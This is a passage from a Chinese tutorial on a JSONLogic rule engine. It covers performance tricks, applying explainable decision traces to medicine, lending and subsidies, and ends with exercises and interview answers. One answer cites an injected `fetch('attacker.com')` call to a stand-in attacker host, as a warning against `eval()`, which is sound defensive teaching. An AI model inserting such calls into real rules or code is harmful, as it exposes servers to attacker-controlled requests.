`hit_policy: "first"` 命中第一行就停。R-200 的第一行就是"如果 calc.retirement.legal_retire_age_years 是 null 则 needs_agent=true"——如果上游字段缺失，第一行命中，后面的查表 / 计算逻辑全部跳过。

这意味着：**信息越不全，引擎越快**（因为大部分规则在第一行就 break 了）。完整跑完 24 条规则的"全计算"路径只有在所有字段齐全时才走。

#### 原因 3：单次数据库往返

`orchestrate()` 用 `Promise.all` 一次拉齐所有规则和参数。24 条规则的 SQL 是一条 join 查询——不是 24 次单条查询。

```sql
-- 示意：单次 join 查询取齐所有规则
SELECT r.*
FROM rules r
JOIN rule_sets rs ON rs.rule_set_id = $1
WHERE r.rule_id = ANY(rs.rules::text[])
  AND r.status = 'published'
  AND r.effective_from <= $2
  AND (r.effective_until IS NULL OR r.effective_until > $2)
ORDER BY array_position(rs.rules, r.rule_id);
```

这是性能优化最关键的一步。如果你天真地 `for (ruleId of ruleSet.rules) await db.query(...)`，那就是 24 次往返——延迟会从 100ms 飙到 1.5 秒。

#### 还能更快吗

可以。但 SSP 没做：

- **缓存 effective_rules**：当前是每次调用都查 DB。可以在 Redis 加一层缓存（key = `${ruleSetId}_${asOfDate}`，TTL = 1 小时）。预计能省掉 30-100ms 的 DB 往返。
- **JIT 编译 JSONLogic**：把 JSONLogic 表达式编译成原生 JS 函数（用 new Function），单次调用更快。但代价是失去可序列化、丧失安全性。
- **并行执行无依赖规则**：理论上 R-200 和 R-300 可以并行（它们的 inputs 不重叠）。但代码复杂度激增，且收益不大（5ms 优化到 3ms 没必要）。

> **划重点**：规则引擎不是性能瓶颈——LLM 调用才是（800-3000ms）。把规则引擎的性能压到 100ms 以内，剩下的精力应该去优化 LLM 那一段（缓存、批处理、流式）。


---

## 三、举一反三

SSP 的引擎实现是"决策可解释"模式的一个实例。这个模式在所有"AI 给出建议但必须可追溯"的领域都有价值。

#### 医疗领域：诊疗决策的可解释性

医疗 AI 给出"建议做 CT 检查"——医生和患者都需要知道为什么。把 SSP 的引擎模式套过去：

| SSP 概念 | 医疗 Agent 对应 |
|---|---|
| `ctx.user` | 患者主诉 + 症状 + 既往史 |
| `ctx.params` | 临床指南数据库（NCCN / WHO / 卫健委） |
| `ctx.calc` | 中间推断（鉴别诊断列表） |
| `ctx.plan` | 推荐检查 + 用药 + 转诊 |
| `trace[]` | "因为患者有 A 症状（出处：主诉）+ B 既往史（出处：电子病历）+ 符合 C 指南第 4 条 → 建议 D 检查" |

医疗场景对 trace 的要求比 SSP 严格 100 倍——任何一个推理步骤都必须能链回**某条公开发表的临床指南**。这意味着 `parameter_refs` 字段要扩展成"指南引用 + DOI + 章节号"。

#### 金融领域：信贷审批的可解释性

监管要求银行对每一笔拒贷给出明确理由。规则引擎天然适合：

| SSP 概念 | 信贷 Agent 对应 |
|---|---|
| `ctx.user` | 申请人征信 + 收入 + 资产 |
| `ctx.params` | 银行风控阈值表（按等级分） |
| `ctx.calc` | 中间评分（违约概率 / DSR） |
| `ctx.plan` | 批 / 不批 + 额度 + 利率 |
| `trace[]` | "DSR > 60%（阈值 50%） → 拒"（一句话能给监管一个解释）|

#### 公共事业：补贴申领的可解释性

任何政府补贴系统都该用规则引擎。比如低保资格审核，每个条件（户籍、收入、家庭成员）都是一条规则。trace 直接给到办事窗口——"为什么不符合"一目了然。

> **划重点**：抽象出来看，"输入 → 规则集 → ctx 流水线 → trace 证据链"这个模式是**所有可解释 AI 的骨架**。LLM 负责自然语言交互，规则引擎负责硬决策。把这两层职责分清楚，AI 就能从"玄学"变成"工程"。

---

## 四、小结

引擎不是"黑盒"，而是一条透明的流水线。从 `orchestrate()` 入口接收 user 输入，到 `executeRule()` 一条条跑，到最后吐出 plan + trace[]——每一步的数据流向都能追溯。


我们今天看的是 SSP 的实现，但真正的价值是这套架构的**通用性**：JSONLogic 提供安全可序列化的条件求值，ctx 是规则间的共享状态契约，trace[] 是对外的证据链承诺。把这三件套搬到任何领域，你都能造一个"决策可解释"的 AI。

**核心要点回顾**：

- ✅ JSONLogic（json-logic-js@^2.0.5）提供封闭操作符集，安全 + 可序列化 + 跨语言
- ✅ ctx 四分区：`user`（输入）/ `params`（政策表）/ `calc`（中间产物）/ `plan`（最终输出）
- ✅ `orchestrate()` 五步走：解析参数 → 并行加载规则+参数 → 初始化 ctx → 顺序执行 24 条规则 → 返回 trace
- ✅ 引擎 8 大模块：orchestrator / executor / actions / json-logic / builtins / scenario-builder / subsidy-advisor / test-runner
- ✅ trace[] 是给开发者看的工程数据，evidence[] 是给用户看的故事——通过转换函数衔接
- ✅ 错误处理三原则：规则挂了跳过、函数挂了返回 null、引擎挂了工具层兜底
- ✅ 性能秘诀：JSONLogic O(N) + 短路求值 + 单次 DB join 查询，全流程 60-200ms

到这里，核心篇 7 节就结束了。我们把 Agent 的"大脑（System Prompt）"、"协议（Tool Calling）"、"手脚（三个工具）"、"决策表（DSL）"、"执行引擎（JSONLogic）"全部讲完了。下一节进入工程篇——前端怎么把这些后端能力变成用户能用的产品。

---

## 思考题

1. **【开放题】**：SSP 的 `evaluateJsonLogic` 把 `{}` 当成"永远为真"的 catch-all。这个设计有它的理由（让 R-900 兜底行简洁），但也带来风险——如果有人误把 when 写成 `{}`，那一行会无条件命中。你会怎么改进？是引入显式的 `"when": "always"` 字面量，还是在 admin 编辑器层面加 lint 警告？

2. **【动手题】**：在 `src/lib/engine/orchestrator.ts` 里加一个 `executionTimeMs` 字段，记录每条规则的执行耗时。要求：
   - trace 数组里每条记录新增 `execution_ms` 字段
   - admin 后台 `/admin/rules/:ruleId` 页面跑 examples 时显示耗时
   - 验收标准：完整跑一次 24 条规则的 plan，所有规则的 `execution_ms` 加起来 < 50ms

3. **【选做】**：实现一个 `replayPlan(planId)` 函数。给定一个历史 planId，从数据库读出当时的 input + asOfDate + ruleSetVersion + policyPackVersion，重新跑一遍 orchestrate，对比结果应该完全一致。这是规则引擎"可复现"的硬测试。思考：哪些情况下复现会失败？时区问题？随机数？外部 API？

---

## 面试题

**Q1.【基础】【主题：规则引擎】** SSP 为什么用 JSONLogic（json-logic-js）而不是直接 `eval()` 来求值规则条件？请给出至少三个理由。
<details><summary>参考解答</summary>

三个理由：

1. **安全（封闭操作符集）**——`eval()` 能执行任意 JavaScript，一旦规则里塞进 `fetch('attacker.com')` 整个服务器就完了。JSONLogic 的操作符都是白名单内的合法 JSON 键（and/or/if/==/var/>= 等），不在白名单的字符串一律当字面量原样返回，注入不了代码；
2. **可序列化（JSON 原生）**——JSONLogic 是 JSON 树，能在管理后台拖拽编辑、做语法高亮、diff 两个版本；`eval()` 接受字符串，没法可视化、没法静态分析；
3. **跨语言可移植**——JSONLogic 有 JS/Python/PHP/Go/Rust 等 10+ 语言实现且语义一致，同一份 JSON 规则在 TS 后台和 Python 批处理脚本里跑出完全一致结果；`eval()` 换语言就得重写。

补充：SSP 还约定 `{}` 空对象求值为"永远为真"，用作 catch-all 兜底行（如 R-900 的最后一行 `"when": {}`）。

</details>

**Q2.【进阶】【主题：规则引擎】** 引擎的 ctx 有哪四个分区，分别由谁读写？`orchestrate()` 为什么用 `Promise.all` 加载规则和参数、用 `structuredClone` 初始化 user？
<details><summary>参考解答</summary>

ctx 四分区（`RuleContext`）：

- `user`——调用方传入的"原料"，所有规则可读；
- `params`——引擎从 policy_pack 按 asOfDate 加载的"政策参数表"，供 lookup action；
- `calc`——规则用 set action 写入的"中间产物"，供后续规则读；
- `plan`——R-700-PLAN-TEMPLATE 装配的"成品"，工具层最终读取。

设计哲学是"**约定优于通信**"——规则不需要知道谁在前后，只需声明读哪些字段、写哪些字段，编排交给 rule_set。

`Promise.all` 并行加载规则 + 参数：一次数据库往返查齐所有数据，而不是循环里查 24 次；对 serverless 冷启动（每次都要建 DB 连接）尤其关键，把延迟从 ~1.5 秒压到 ~100ms。

`structuredClone(input.user)` 深拷贝输入：让规则即使修改 `ctx.user`（如 R-010 把"73年"解析成 1973）也不污染调用方原始数据。

</details>

**Q3.【深挖】【主题：规则引擎】** trace[] 和 evidence[] 有什么区别？为什么 `needs_agent` 要从 trace 推导而不是读一个固定字段？引擎"24 条规则串行"为什么还能跑到 60-200ms？
<details><summary>参考解答</summary>

**trace[] vs evidence[]**：trace[] 是引擎吐出的原始工程数据（rule_id / row_id / matched / actions_executed / timestamp），给开发者调试；evidence[] 是经 `extractEvidence(trace, locale)` 翻译后给用户看的人类可读"故事"（带 step / description / confidence）。原则是"不要让用户直接看 trace"。

**needs_agent 从 trace 推导**：因为它是一个"**行为信号**"而非固定字段——从执行轨迹里是否出现 `emit_question` 动作（或 set needs_agent=true）推导而来。这样"是否追问"完全由政策逻辑控制、不受 LLM 行为影响，保证了决策的确定性。

**性能秘诀三点**：(1) JSONLogic 是 O(N) 递归下降求值，72 次左右调用总耗时 <5ms；(2) **短路求值**——`hit_policy: "first"` 命中第一行就 break，信息越不全引擎越快（大部分规则第一行就因字段缺失命中并跳过后续）；(3) **单次 DB join 查询**取齐所有规则参数，而非 24 次单条往返。瓶颈其实在 LLM 调用（800-3000ms）而非规则引擎，把引擎压到 100ms 以内后该去优化 LLM 那段。

</details>

---

## 延伸阅读

- [JSONLogic 官方文档](https://jsonlogic.com/)
- [json-logic-js GitHub](https://github.com/jwadhams/json-logic-js)
- [Martin Fowler — Tracing Tools](https://martinfowler.com/articles/202305-monolith-decomposition.html)
- [OpenTelemetry — Span Semantic Conventions](https://opentelemetry.io/docs/specs/semconv/)
- [Building Explainable AI Systems](https://christophm.github.io/interpretable-ml-book/)

---

[← 上一节：第 14 节 规则引擎 DSL：把 24 条政策变成可执行 JSON](./15-rule-engine-dsl.md) · [📚 目录](./README.md) · [下一节：第 16 节 前端集成：useChat + assistant-ui 双栈对比 →](./17-frontend-integration.md)
